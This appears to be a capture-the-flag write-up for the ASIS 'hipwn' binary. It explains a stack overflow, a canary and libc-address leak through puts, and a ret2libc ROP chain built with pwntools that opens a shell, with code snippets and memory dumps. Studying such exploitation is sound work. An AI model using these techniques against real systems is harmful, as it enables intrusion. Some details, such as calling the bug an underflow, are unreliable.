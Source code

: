 # hipwn
## ASIS
The ASIS ctf is a hard CTF, rating 89,8 on CTF-time, it is among the top weighted CTFs right now.

## Initial inspection
We are handed out a Dockerfile and a folder with the vulnerable binary.

A `checksec` of the provided binary shows full protection. Which means, that we most likely are looking at a ROP challenge.
```bash
checksec --file==./orig_chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   42 Symbols        No    0               1               ./orig_chall
```
A brief look in IDA shows that it is a buffer underflow vulnerability:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int nbytes; // [rsp+Ch] [rbp-54h] BYREF
  char nbytes_4[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  while ( 1 )
  {
    puts("How much???");
    __isoc99_scanf("%u", &nbytes);
    puts("ok... now send content");
    read(0, nbytes_4, nbytes);
    nbytes_4[nbytes] = 0;
    puts(nbytes_4);
    puts("wanna do it again?");
    __isoc99_scanf("%u", &nbytes);
    if ( nbytes != 1337 )
      break;
    puts("i knew it");
  }
  return 0;
}
```
We can from the decompiled source code see, that we control the amount of data to read in. The code then stores the data in a buffer of 72 bytes (`char nbytes_4[72];`)

The binary also imports  libc, which is great, becasu it enables us to utilize many more gadgets - ret2libc.

# Getting the correct libc
In order to find correct gadget addresses for our exploit, we need to get the version of libc that the server uses, thankfully ASIS provided us with the Dockerfile of the challenge which have a very specific build tag, allowing us to replicate the state of the server:
```bash
FROM ubuntu@sha256:aabed3296a3d45cede1dc866a24476c4d7e093aa806263c27ddaadbdce3c1054
docker build .
```
Now we can get the libc.so + the corresponding linker/loader from the provided docker image:
```bash
docker cp temp_container:/lib/x86_64-linux-gnu/libc.so.6 ./libc.so.6
docker cp temp_container:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 ./ld-linux-x86-64.so.2
```
I had some problems copying the files as some were symlinks to the files in /lib, this should work, however. Now, we need to make GDB run the program as the server would. First, we need to path binary to use correct interpreter:
```bash
patchelf --set-interpreter ./ld-linux-x86-64.so.2 ./chall
```
We also need to specify which libc.so we want to use, we do this by creating the process like this in our exploit script:
```bash
process([context.binary.path], env={'LD_PRELOAD': './libc.so.6'})
```

## Creating the exploit
### Canary leakage
First obstacle is the stack canary which, if overwritten, will cause the program to exit. Luckily we have an underflow in the program, which we can use to leak stack canary in order to use it in our exploit payload later on. We start by doing a cyclic pattern to figure out, what the offset to our canary is:
```bash
0x7fff5b4e2a90: 0x0000000000000000      0x0000005000000000
0x7fff5b4e2aa0: 0x6161616261616161      0x6161616461616163
0x7fff5b4e2ab0: 0x6161616661616165      0x6161616861616167
0x7fff5b4e2ac0: 0x6161616a61616169      0x6161616c6161616b
0x7fff5b4e2ad0: 0x6161616e6161616d      0x616161706161616f
0x7fff5b4e2ae0: 0x6161617261616171      0x4baa9c6156f32c0a
0x7fff5b4e2af0: 0x0000000000000001      0x00007feaa7a29d90
0x7fff5b4e2b00: 0x0000000000000000      0x000055df56a2a1c9
0x7fff5b4e2b10: 0x0000000100000000      0x00007fff5b4e2c08
```
We can see that `0x6161617261616171` is just before the canary, actually overwriting the last bit with an a, this is perfect because stack canaries are always null terminated ending on 00, which is usually how to spot them. These bytes correspond to `aaaraaaq` looking at the pattern. From cyclic(100) in gdb or pwntools, we can see that this sequence occurs after 72 bytes. So this is where the canary starts, we need to overflow the last part of the canary and leak the rest, overflowing it is very important, otherwise puts() won't print it out, as it stops printing the memory at the first 00 it encounters.

After leaking the canary we can go again by typing 1337, we can do this with an overwritten canary because no stack frames are popped, because we're still in the main function in a while loop.

### Finding libc base dynamically
Because PIE is enabled, the binary, and libc as well, will get a new address on each execution. Therefore, we need to figure out in which address libc was loaded, from this base, we know the offset to our gadgets.

Looking at the stack is a good place to start, since we can easily leak addresses from there. The address starting with 7f is obviously loaded a different place than the address of the binary starting with 55. But to double check we can always use vmmap in gdb to debug.

Leaking the libc function is exactly the same way as with the canary, we still make sure to overwrite any 00 bytes. When disassembling the memory around the leaked address, we see that it is actually 0x90 into this function:
```c
0x7feaa7a29d00 <__libc_init_first>:  endbr64
```
I don't now this function, but it will do just fine to determine the libc base. We just subtract the offset that we know from the leaked address:
```python
libc_base = libc_leak - libc.symbols['__libc_init_first']
```
### Ret to a shell
Now we need to find ROP gadgets in libc: ret, system, bin/sh, exit, pop rdi(in order to get '/bin/sh' from the stack into rdi which is where the argument for system(arg) resides). This is easily done with pyelftools:
```python 
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0] + libc_base 
ret = rop.find_gadget(['ret'])[0] + libc_base 
bin_sh = next(libc.search(b'/bin/sh\x00')) + libc_base 
exit_addr = libc.symbols['exit'] + libc_base 
rop.raw([ret, pop_rdi, bin_sh, system_addr, exit_addr])
```
also added an exit to exit the binary gracefully, otherwise it would terminate our shell. Ret added to align the stack with 16 bytes. The resulting ROP chain looks something like this:
```bash 
0x0000:   0x7f618de29cd6
0x0008:   0x7f618de2a3e5
0x0010:   0x7f618dfd8698
0x0018:   0x7f618de50d60
0x0020:   0x7f618de455f0
```

Now the only thing left is to send the payload, consisting of the offset to canary padding, then the canary then overwrite rbp with some junk and lastly the ROP chain.

Once in the shell: `cat flag.txt`

NB: While this did not work locally, it worked on the remote.